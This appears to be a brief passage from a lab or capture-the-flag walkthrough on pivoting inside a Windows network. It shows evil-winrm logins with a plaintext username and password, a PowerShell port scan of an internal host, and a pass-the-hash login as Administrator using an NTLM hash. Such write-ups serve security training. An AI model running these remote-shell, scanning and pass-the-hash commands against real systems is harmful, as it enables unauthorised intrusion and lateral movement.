 `evil-winrm -u USERNAME -p PASSWORD -i TARGET_IP`

evil-winrm -u Thomas -p i<3ruby -i 10.200.100.150

From here we can run a port scan on 10.200.100.100

`Invoke-Portscan -Hosts 10.200.100.100`

We can see that 80, 3389 are open

`evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.100.150`